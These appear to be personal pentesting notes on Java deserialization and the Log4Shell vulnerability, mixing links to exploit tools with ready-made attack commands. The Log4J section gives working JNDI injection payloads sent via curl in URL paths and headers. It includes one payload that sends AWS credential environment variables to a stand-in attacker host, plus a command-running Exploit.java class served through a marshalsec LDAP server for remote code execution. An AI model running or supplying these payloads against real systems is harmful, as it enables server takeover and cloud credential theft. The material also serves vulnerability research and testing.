 # Java Deserialization

The real risk with Java is that objects could be created arbitrarily with serialization and deserialization. This means if you can inject a crafted serialized object into the program's input, you could create any object and anything in that object's constructor or destructor or whatever would run. It just wasn't safe, it was a bad idea to have or use publicly such a flexible method to serialize and deserialize objects.

https://github.com/mbechler/marshalsec


https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#payload-generators

https://github.com/frohoff/ysoserial

![[docs/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf]]



https://github.com/pwntester/JVMDeserialization/blob/master/groovy/SerializationDemo.groovy

https://github.com/joaomatosf/jexboss

# Log4J - RCE
https://www.lunasec.io/docs/blog/log4j-zero-day/

Payload: https://github.com/xiajun325/apache-log4j-rce-poc
and: https://github.com/mbechler/marshalsec

Tester for the inet.
https://log4shell.huntress.com/

Basic Payload, find a place where this will be logged
```bash
${jndi:ldap://log4shell.huntress.com:1389/dfedf581-06d2-40ec-a040-78ffb45ce18b}
```

for expample, for non existing pathes
```bash
curl 'http://localhost:3000/api/test/$\{jndi:ldap://log4shell.huntress.com:1389/913e72ec-648f-4918-969d-29f3c6c9316b\}'
```

or agents
```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://192.168.1.143:1389}
```

not just RCE, it is possible to leak env variables

https://www.tomitribe.com/blog/cve-2021-44228-log4shell-vulnerability/

```bash
${jndi:ldap://evil.attaker:1234/${env:AWS_ACCESS_KEY_ID}/${env:AWS_SECRET_ACCESS_KEY}}
```

Up to Version < jdk8u191 (before) the marshelsec payload should work

your java verison should be lower than jdk8u191, otherwise the server will not request the http server. because a new option trustURLCodebase(default false) has been added to the higher version java.

https://githubmemory.com/repo/invokethreatguy/log4shell-vulnerable-app

create a java class
```bash
cat >> Exploit.java <<EOF
class Exploit {
    static {
        try { Runtime.getRuntime().exec("touch /pwned"); } catch(Exception e) {}
    }
}
EOF
javac Exploit.java
```

```bash
python3 -m http.server --bind 0.0.0.0 8888
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://your-local-ip:8888/#Exploit"
```

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://192.168.1.143:1389}
```

for java version greater we need to find a implemented class
https://www.veracode.com/blog/research/exploiting-jndi-injections-java

https://github.com/veracode-research/rogue-jndi



Researches:
https://www.fatalerrors.org/a/hole-chasing-group-fastjson1.2.24-recurrence-analysis.html

https://www.veracode.com/blog/research/exploiting-jndi-injections-java

https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf